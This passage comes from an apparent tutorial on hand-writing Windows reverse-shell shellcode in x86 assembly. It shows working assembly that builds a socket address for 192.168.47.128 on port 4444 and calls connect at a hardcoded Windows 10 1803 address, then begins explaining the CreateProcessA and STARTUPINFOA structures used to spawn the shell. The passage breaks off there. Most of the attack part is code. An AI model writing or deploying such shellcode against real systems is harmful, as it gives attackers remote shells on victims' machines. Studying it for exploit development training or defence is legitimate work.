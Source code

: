 Again we'll be push our parameters in reverse, starting with creating a pointer to our our IP address and port. To figure out the address in hex you can simply break each octect down, reverse the order of the octects and convert to hex. ie: 128 = 80, 47 = 2f, 168 = a8, 192 = c0. Thus we'll push 802fa8c0. Same concept for the port. 4444 = 115c, reverse to 5c11.


```asm
push 0x802fa8c0		; 192.168.47.128
push word 0x5c11	; port 4444
xor ebx, ebx		
add bl, 2
push word bx		
mov edx, esp		; pointer for SockAddr
push byte 16		; AddrLen - 16
push edx		; pSockAddr
push esi		; saved socket
mov ebx, 0x754e5ee0	; connect - Win10 1803
call ebx
```

Finally is CreateProcessA, and boy is it a doozy. Let's see what Microsoft has to say about it's [structure](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessa).

```
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

Along with this we also need to provide a pointer for StartupInfo which it's structure is defined [here](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/ns-processthreadsapi-_startupinfoa).

```
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
}
```
